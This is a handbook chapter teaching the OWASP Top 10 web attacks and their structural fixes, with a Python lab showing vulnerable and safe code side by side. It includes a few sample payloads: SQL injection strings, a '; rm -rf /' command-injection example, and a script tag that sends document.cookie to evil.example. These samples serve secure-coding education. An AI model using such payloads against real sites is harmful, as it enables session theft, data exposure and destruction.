

# The Most Common Web Attacks

*Injection, broken access control, cross-site scripting, request forgery — the same handful of bugs cause most web breaches, and each has a well-known fix.*

---

> *“All Input Is Evil!”*
>
> — **Michael Howard and David LeBlanc**, chapter title in *Writing Secure Code* (2nd edition), 2002

## At a Glance

> **In one sentence:** Most web vulnerabilities come from two mistakes — treating untrusted data as code (SQL injection, XSS, command injection, SSRF) and trusting the client to enforce rules (broken access control, CSRF, tampered parameters) — and each is prevented by a standard, structural fix rather than clever filtering.

**You'll learn**

- The OWASP Top 10 and what it tells you about real-world risk
- SQL and command injection, and why parameterized queries work
- Cross-site scripting (XSS) and output encoding
- Broken access control and insecure direct object references (IDOR)
- Cross-site request forgery (CSRF) and SameSite cookies
- Server-side request forgery (SSRF) and cloud metadata attacks
- Security headers and safe defaults

**Before you start:** [Why Hackers Succeed](Why-Hackers-Succeed.md) · [HTTP, TCP/IP, and the Protocol Stack](../03-How-The-Internet-Works/HTTP-TCP-IP-and-the-Protocol-Stack.md) · [How Databases Work](../04-Data-And-Storage/How-Databases-Work.md)

**Reading time:** about 10 minutes

---

## The Big Picture



*Two root causes, a handful of attack classes, and a standard fix for each.*

---

## Introduction

A developer builds a search box. It works perfectly for every search they try. Then someone types `' OR '1'='1` and sees every customer record in the database. Another developer builds an invoice page at `/invoices/1042`. It works perfectly — and anyone who changes the number to `1043` sees someone else's invoice.

Neither developer was careless in the usual sense. Their code did exactly what they designed it to do for legitimate users. The problem is that attackers aren't legitimate users. They send input nobody anticipated, and they call endpoints directly without the user interface that was supposed to limit them.

These bugs have been known for more than two decades. They still appear in new code every day — including code generated by AI assistants — because they're easy to write and invisible in normal testing. The good news: each has a **structural fix** that makes the whole class of bug disappear.

### Why Should Engineers Care?

- These are the vulnerabilities attackers scan for automatically, all day, across the internet.
- Most are introduced by application developers, not infrastructure teams.
- The fixes are cheap when built in from the start and expensive to retrofit.

---

## The Problem It Solves

| Root cause | Attack classes |
|-----------|---------------|
| Mixing untrusted data into code or commands | SQL/NoSQL injection, command injection, XSS, template injection, SSRF |
| Trusting the client to enforce rules | Broken access control (IDOR), mass assignment, price/parameter tampering, CSRF |
| Unsafe defaults and configuration | Exposed admin panels, verbose errors, missing security headers, default credentials |
| Weak authentication and sessions | Credential stuffing, session fixation, predictable tokens |

---

## Historical Background

- **1998 — SQL injection** was publicly described in *Phrack* magazine by Jeff Forristal ("rain.forest.puppy").
- **Late 1990s–2000 — Cross-site scripting** was identified and named; a 2000 CERT advisory warned about malicious HTML tags in web requests.
- **2003 — OWASP Top 10** was first published by the Open Worldwide Application Security Project and has been updated periodically; the 2021 edition placed **Broken Access Control** at number one.
- **2005 — The Samy worm** used XSS to add over a million friends on MySpace within about a day.
- **2007–2010s — CSRF** attacks and defenses (tokens, then SameSite cookies, now defaulting to `Lax` in major browsers) matured.
- **2019 — Capital One** breach used server-side request forgery to reach cloud instance metadata and obtain credentials.
- **2021 — SSRF** entered the OWASP Top 10 as its own category.

---

## Core Concepts

### The OWASP Top 10 (2021)

| # | Category |
|--|---------|
| A01 | Broken Access Control |
| A02 | Cryptographic Failures |
| A03 | Injection (including XSS) |
| A04 | Insecure Design |
| A05 | Security Misconfiguration |
| A06 | Vulnerable and Outdated Components |
| A07 | Identification and Authentication Failures |
| A08 | Software and Data Integrity Failures |
| A09 | Security Logging and Monitoring Failures |
| A10 | Server-Side Request Forgery (SSRF) |

(OWASP updates the list every few years; check for the latest edition.)

### SQL Injection

```python
# VULNERABLE: user input becomes part of the SQL code
db.execute(f"SELECT * FROM users WHERE name = '{name}'")
# name = "x' OR '1'='1"  →  returns every user

# SAFE: parameterized query — input is always data, never code
db.execute("SELECT * FROM users WHERE name = ?", (name,))
```

Parameterized queries (prepared statements) send the query structure and the data separately, so the database never interprets data as SQL. Escaping by hand is fragile; parameterization is structural. ORMs parameterize by default — until someone uses a raw query with string formatting.

### Command Injection

Passing user input to a shell (`os.system(f"convert {filename} out.png")`) lets `; rm -rf /` become a command. Avoid shells; pass arguments as a list (`subprocess.run(["convert", filename, "out.png"])`), validate inputs against allow-lists.

### Cross-Site Scripting (XSS)

An attacker gets their JavaScript to run in other users' browsers — stealing sessions, performing actions, or defacing pages.

- **Stored XSS:** malicious script saved (for example, in a comment) and shown to others.
- **Reflected XSS:** script in a URL reflected into the page.
- **DOM-based XSS:** client-side code writes untrusted data into the page unsafely (`innerHTML`).

Fixes: **context-aware output encoding** (modern templating frameworks escape by default), avoiding raw HTML insertion, sanitizing rich text with a vetted library, and a **Content Security Policy (CSP)** that limits which scripts can run. Mark session cookies `HttpOnly` so scripts can't read them.

### Broken Access Control and IDOR

The server must check, on **every request**, that the authenticated user may perform this action on this specific object:

```python
# VULNERABLE: any logged-in user can read any invoice by changing the ID
invoice = db.get_invoice(invoice_id)

# SAFE: scope the query to the current user (or check ownership explicitly)
invoice = db.get_invoice(invoice_id, owner_id=current_user.id)
```

Hiding a button in the UI is not access control. Unpredictable IDs (UUIDs) make guessing harder but are **not** a substitute for authorization checks.

### Cross-Site Request Forgery (CSRF)

A malicious site makes the victim's browser send a request to your site, which carries the victim's cookies automatically. Defenses: `SameSite=Lax` or `Strict` session cookies (now a browser default for cookies without the attribute in major browsers), anti-CSRF tokens for state-changing requests, and never performing state changes on `GET`.

### Server-Side Request Forgery (SSRF)

A feature that fetches a user-supplied URL (webhooks, link previews, image imports) can be tricked into requesting internal addresses, such as cloud metadata endpoints (`169.254.169.254`) that return credentials. Defenses: allow-lists of destinations, resolving and validating IPs (blocking private and link-local ranges), running fetchers in isolated networks, and using hardened metadata services (for example, AWS IMDSv2 requires a session token).

### Security Headers and Safe Defaults

| Header / setting | Purpose |
|-----------------|--------|
| `Content-Security-Policy` | Restrict script and resource sources (XSS defense) |
| `Strict-Transport-Security` | Force HTTPS |
| `X-Content-Type-Options: nosniff` | Prevent MIME-type confusion |
| `frame-ancestors` (CSP) / `X-Frame-Options` | Prevent clickjacking |
| Cookies: `Secure; HttpOnly; SameSite=Lax` | Protect session cookies |
| Generic error pages | Don't leak stack traces or internals |

---

## Real-World Analogy

### A Bank Teller and a Forged Note

A teller who reads a customer's note aloud to the vault clerk — "please give me $50 *and also open all the safe deposit boxes*" — has mixed instructions with data (injection). A teller who hands over any account's statement to whoever names the account number hasn't checked authorization (IDOR). And a teller who processes any signed withdrawal slip, even one slipped into the customer's bag by a stranger, is vulnerable to forgery (CSRF). Good banks separate instructions from customer text, check ID for every account, and confirm who actually wants the transaction.

---

## How It Works In Practice

### A Secure Request Handler Checklist

For every endpoint:

1. **Authenticate:** who is calling? (session or token validation)
2. **Validate input:** types, lengths, formats, allowed values.
3. **Authorize:** may *this* user do *this* action on *this* object? (server-side, every time)
4. **Use safe APIs:** parameterized queries, argument lists, no `eval`.
5. **Encode output** for its context (HTML, attribute, JavaScript, URL).
6. **Protect state changes:** POST/PUT/DELETE only, CSRF defense, idempotency where relevant.
7. **Log** security-relevant events without logging secrets.
8. **Return safe errors** — no stack traces to users.

### Finding These Bugs

| Technique | Finds |
|----------|------|
| Code review with a security checklist | Missing authorization, unsafe queries |
| Static analysis (SAST) | Injection patterns, dangerous functions |
| Dynamic scanning (DAST) | Reflected XSS, missing headers, misconfiguration |
| Dependency scanning | Known vulnerable libraries |
| Penetration testing and bug bounties | Business-logic and access-control flaws |
| Automated authorization tests | IDOR regressions ("user A can't read user B's data") |

---

## Production Engineering Perspective

- **Use frameworks with safe defaults** (auto-escaping templates, ORMs, CSRF middleware) and make unsafe paths explicit and reviewed.
- **Centralize authorization** in one well-tested layer or policy engine instead of scattered `if` statements.
- **Web application firewalls (WAFs)** block common attack patterns and buy time for patches — but they are a layer, not a fix.
- **Rate-limit authentication endpoints** to slow credential stuffing; monitor login anomalies.
- **Keep dependencies updated;** many web breaches exploit known vulnerabilities in frameworks and libraries.

---

## Tradeoffs

| Control | Benefit | Cost |
|--------|--------|-----|
| Strict CSP | Strong XSS mitigation | Refactoring inline scripts; third-party script friction |
| WAF | Quick protection against known patterns | False positives; can be bypassed |
| Centralized authorization | Consistency, auditability | Upfront design work |
| Strict input validation | Fewer surprises | Must not reject legitimate edge cases (names, languages) |
| Bug bounty | Real-world testing | Triage effort; needs mature response process |

---

## Common Mistakes

### Beginner Mistakes

- Building SQL with string formatting.
- Hiding admin buttons instead of checking permissions on the server.
- Inserting user content with `innerHTML`.

### Intermediate Mistakes

- Relying on input "sanitization" by removing bad characters instead of parameterizing and encoding.
- Checking authorization on the list endpoint but not on the detail or update endpoint.
- Fetching arbitrary user-provided URLs from inside the production network.

### Senior-Level Mistakes

- No automated tests for authorization rules, so refactors silently remove checks.
- Treating the WAF as the fix rather than a temporary shield.
- Different teams implementing access control differently across services.

---

## Failure Scenarios

### Scenario 1: The Search Box

A search endpoint builds SQL from input. An attacker dumps the users table, including password hashes.

**Mitigation:** parameterized queries everywhere; least-privilege database accounts; strong password hashing so leaked hashes are hard to crack.

### Scenario 2: The Sequential IDs

`/api/orders/10001`, `/api/orders/10002`… An attacker scripts requests and downloads every customer's orders.

**Mitigation:** ownership checks on every object access; automated IDOR tests; rate limits and anomaly detection.

### Scenario 3: The Profile Bio

A profile field allows HTML. An attacker's bio contains a script that sends viewers' session tokens to an external server.

**Mitigation:** output encoding, HTML sanitization for rich text, CSP, `HttpOnly` cookies.

### Scenario 4: The Link Preview

A link-preview feature fetches any URL. An attacker submits the cloud metadata address and receives temporary credentials.

**Mitigation:** SSRF protections — allow-lists, IP validation after DNS resolution, isolated fetch service, hardened metadata endpoints.

---

## Real-World Industry Examples

- **OWASP** publishes the Top 10, the Application Security Verification Standard (ASVS), and free cheat sheets for each attack class.
- **The Samy worm (2005)** demonstrated how fast stored XSS can spread on a social platform.
- **Capital One (2019)** showed the impact of SSRF against cloud metadata services; cloud providers subsequently promoted hardened metadata access (such as AWS IMDSv2).
- **Browsers made `SameSite=Lax` the default** for cookies without an explicit setting (Chrome began in 2020), sharply reducing CSRF exposure.

---

## Interview Questions

### Beginner

**Q1: How do parameterized queries prevent SQL injection?**

*Model answer:* They send the SQL statement and the user-supplied values to the database separately. The database parses the statement first, then treats values purely as data, so input like `' OR '1'='1` can't change the query's structure.

### Intermediate

**Q2: What is an IDOR, and how do you prevent it?**

*Model answer:* An insecure direct object reference: an endpoint returns or modifies an object based on an ID from the client without checking that the user may access that object. Prevent it with server-side authorization on every request — for example, querying by both object ID and owner ID — and with automated tests that try cross-user access.

**Q3: How do XSS and CSRF differ?**

*Model answer:* XSS runs attacker script in your site's pages in the victim's browser, with full access to the page. CSRF makes the victim's browser send a request to your site from another site, abusing automatically attached cookies, without reading the response. XSS is prevented by output encoding and CSP; CSRF by SameSite cookies and anti-CSRF tokens.

### Senior

**Q4: How would you protect a feature that fetches user-provided URLs?**

*Model answer:* Restrict protocols and ports, resolve the hostname and block private, loopback, and link-local IP ranges (connecting to the validated IP to prevent DNS rebinding), prefer allow-lists, run the fetcher in an isolated network without access to internal services or metadata, limit response size and time, and log requests.

### Architecture / Leadership

**Q5: How would you reduce web vulnerabilities across many teams?**

*Model answer:* Standardize on frameworks with safe defaults, provide shared libraries for authorization and input handling, add SAST, dependency scanning, and secret scanning to CI, require security checklists in design and code review, build automated authorization tests, run periodic penetration tests or a bug bounty, and train engineers on the OWASP Top 10 with examples from our own codebase.

---

## Hands-On Lab

Exploit and then fix SQL injection, XSS, and IDOR — safely, on your own machine. Pure Python; save as `web_attacks_lab.py` and run it.

```python
import html, sqlite3

db = sqlite3.connect(":memory:")
db.executescript("""
CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT, email TEXT);
INSERT INTO users VALUES (1, 'asha', 'asha@example.com'), (2, 'ravi', 'ravi@example.com');
CREATE TABLE invoices (id INTEGER PRIMARY KEY, owner_id INT, amount INT);
INSERT INTO invoices VALUES (1001, 1, 500), (1002, 2, 9900);
""")

# --- 1) SQL injection ----------------------------------------------------------
attack = "nobody' OR '1'='1"
vulnerable = db.execute(f"SELECT name, email FROM users WHERE name = '{attack}'").fetchall()
safe = db.execute("SELECT name, email FROM users WHERE name = ?", (attack,)).fetchall()
print("vulnerable query returned:", vulnerable)
print("parameterized query returned:", safe)

# --- 2) Cross-site scripting ---------------------------------------------------
comment = '<script>fetch("https://evil.example/?c=" + document.cookie)</script>'
print("\nunsafe HTML:  <p>" + comment + "</p>")
print("encoded HTML: <p>" + html.escape(comment) + "</p>")

# --- 3) Broken access control (IDOR) -------------------------------------------
def get_invoice_vulnerable(current_user_id, invoice_id):
    return db.execute("SELECT * FROM invoices WHERE id = ?", (invoice_id,)).fetchone()

def get_invoice_safe(current_user_id, invoice_id):
    return db.execute("SELECT * FROM invoices WHERE id = ? AND owner_id = ?",
                      (invoice_id, current_user_id)).fetchone()

print("\nasha (user 1) requests invoice 1002 (ravi's):")
print("  vulnerable:", get_invoice_vulnerable(1, 1002))
print("  safe:      ", get_invoice_safe(1, 1002), "-> respond 404 Not Found")
```

**What to notice**
- The injected string turned the vulnerable query into "return every user." The parameterized version treated the same string as a (non-matching) name.
- Encoded output displays the attacker's script as harmless text instead of running it.
- The safe invoice query returns nothing for someone else's invoice. Returning 404 (not 403) also avoids confirming that the invoice exists.
- Extension: write a test that loops over every user and every invoice and asserts users can only see their own. That test prevents IDOR regressions forever.

---

## Test Yourself

*Answer each question in your head or on paper first, then open the answer to check.*

<details markdown="1">
<summary><strong>1. What are the two root causes behind most web vulnerabilities?</strong></summary>

Treating untrusted data as code or commands, and trusting the client to enforce rules or access decisions.

</details>

<details markdown="1">
<summary><strong>2. Which category was #1 in the OWASP Top 10 2021?</strong></summary>

Broken Access Control.

</details>

<details markdown="1">
<summary><strong>3. Why is hiding a button not access control?</strong></summary>

Attackers call the server directly, bypassing the UI. Only server-side checks on every request enforce access.

</details>

<details markdown="1">
<summary><strong>4. What does the HttpOnly cookie flag protect against?</strong></summary>

JavaScript (including injected XSS scripts) reading the cookie, which reduces session theft.

</details>

<details markdown="1">
<summary><strong>5. How does SameSite=Lax help against CSRF?</strong></summary>

The browser doesn't send the cookie on cross-site sub-requests and cross-site POSTs, so forged requests from another site arrive without the victim's session.

</details>

<details markdown="1">
<summary><strong>6. Why is SSRF dangerous in cloud environments?</strong></summary>

A server can be tricked into requesting internal endpoints, including instance metadata services that return credentials.

</details>

<details markdown="1">
<summary><strong>7. What is the structural fix for command injection?</strong></summary>

Don't invoke a shell with user input; call programs with an argument list and validate inputs against allow-lists.

</details>

---

## Cheat Sheet

| Attack | Root cause | Structural fix |
|-------|-----------|---------------|
| SQL injection | Data in query code | Parameterized queries / ORM |
| Command injection | Data in shell commands | Argument lists, no shell, allow-lists |
| XSS | Data in HTML/JS | Auto-escaping templates, sanitization, CSP, HttpOnly |
| IDOR / broken access control | Trusting client IDs | Server-side authorization on every request |
| CSRF | Ambient cookies | SameSite cookies, CSRF tokens, no state change on GET |
| SSRF | Server fetches user URLs | Allow-lists, IP validation, isolated fetchers, IMDSv2 |
| Misconfiguration | Unsafe defaults | Secure defaults, headers, no verbose errors |

**Per-endpoint checklist:** authenticate → validate → authorize → safe APIs → encode output → protect state changes → log → safe errors.

---

## In the AI Era

- **AI-generated code repeats classic mistakes.** Assistants sometimes produce string-formatted SQL, missing authorization checks, or `innerHTML` with user data. Review generated code with this chapter's checklist.
- **Prompt injection is the newest injection class.** It shares the root cause — untrusted data treated as instructions — but has no structural fix yet. See [Securing AI Systems](../15-AI-Era-Engineering/Securing-AI-Systems.md).
- **Model output is untrusted input.** Rendering it as HTML, running it as SQL, or passing it to a shell reintroduces XSS, SQL injection, and command injection.
- **AI tools that fetch URLs** are SSRF risks — apply the same protections.

**Try it:** Ask an AI assistant to write a "get order by ID" endpoint without mentioning security. Check its output against the per-endpoint checklist. Which steps are missing?

---

## Key Takeaways

1. Most web vulnerabilities come from mixing data with code or trusting the client.
2. Parameterized queries, output encoding, and argument lists eliminate whole classes of injection.
3. Authorization must be checked on the server, for every object, on every request.
4. SameSite cookies and CSRF tokens stop forged cross-site requests.
5. Features that fetch URLs need SSRF protections, especially in the cloud.
6. Frameworks with safe defaults, automated tests, and scanning keep these bugs out at scale.

---

## What to Read Next

- **[Zero Trust Architecture](Zero-Trust-Architecture.md)** — limiting damage when something gets through
- **[How Secure Systems Are Built](How-Secure-Systems-Are-Built.md)** — putting these fixes into the development process
- **[How DNS Works](../03-How-The-Internet-Works/How-DNS-Works.md)** — DNS rebinding and SSRF

---

## Further Reading

- **OWASP Top 10:** [https://owasp.org/Top10/](https://owasp.org/Top10/)
- **OWASP Cheat Sheet Series:** [https://cheatsheetseries.owasp.org](https://cheatsheetseries.owasp.org)
- **OWASP Application Security Verification Standard (ASVS):** [https://owasp.org/www-project-application-security-verification-standard/](https://owasp.org/www-project-application-security-verification-standard/)
- **PortSwigger Web Security Academy** (free, hands-on labs): [https://portswigger.net/web-security](https://portswigger.net/web-security)
- **MDN — Content Security Policy:** [https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- **Michael Howard & David LeBlanc — "Writing Secure Code" (2nd edition, 2002)**

---

*This chapter is part of the Modern Software Engineering Handbook — a comprehensive guide to the concepts, principles, and practices that every professional software engineer should know.*
